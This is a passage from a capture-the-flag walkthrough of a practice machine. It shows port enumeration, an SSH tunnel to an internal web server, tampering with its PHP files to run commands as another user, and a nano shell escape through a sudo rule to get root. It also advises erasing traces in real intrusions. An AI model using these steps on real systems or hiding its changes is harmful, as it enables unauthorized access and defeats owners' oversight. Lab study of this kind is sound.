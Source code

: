 So it seems that there should be a way of executing commands as joanna. Running ```ss -antup``` will show if there are some local ports which aren't accessible from the outside world, hoping that one of them is running this internal server:
```
Local Address           Foreign Address         State           PID/Program Name
127.0.0.1:6010          0.0.0.0:*               LISTEN          -
127.0.0.1:3306          0.0.0.0:*               LISTEN          -
127.0.0.1:52846         0.0.0.0:*               LISTEN          -
```

Port 3306 is the mysql database. Port 6010 is an X11 interface (by doing ```nc 0 6010``` from jimmy's console you can find that out). Port 52846 seemed to be a webserver (also, by doing ```nc 0 52846```)

I then went to the apache configuration files, and found out there was a ```/etc/apache2/sites-available/internal.conf``` conf file. This file defined a virtual host in 52846, and had the following configuration parameter:
```
AssignUserID joanna joanna
```

Cool, so if we can log in to that port, with index.php credentials, then we will be joanna and we can run whatever command we put in main.php.

First, log in as jimmy doing port forwarding (ssh tunneling):
```
ssh -L 4444:127.0.0.1:52846 jimmy@10.10.10.171
```

Modify ```index.php``` and ```main.php``` to use the password we want and run the command we want. **IMPORTANT**: after successfully moving laterally, remember to rollback the changes. This is directly applicable to real life scenarios as well (do not leave traces). In this case, it seemed the box had a cron job to check on changes in this folder and rebooted if it found any.

Then, in a browser, access ```localhost:4444```. Input credentials and observe output.

In my case, instead of leaking joanna's ssh key pair and going through the lengthy process of cracking the ssh passphrase for the encrypted private key, I just added a command to obtain a reverse shell.

## Privesc to root

It's much easier to achieve root than to get to the user in this box.

After running linpeas/linenum as joanna, it jumps straight out that a sudoers.d file is readable by joanna:
```
joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv
```

Great, nano is listed in [GTFOBins](https://gtfobins.github.io/):
```
CTRL-R CTRL-X
reset; sh 1>&0 2>&0
```

This will spawn a shell from nano.
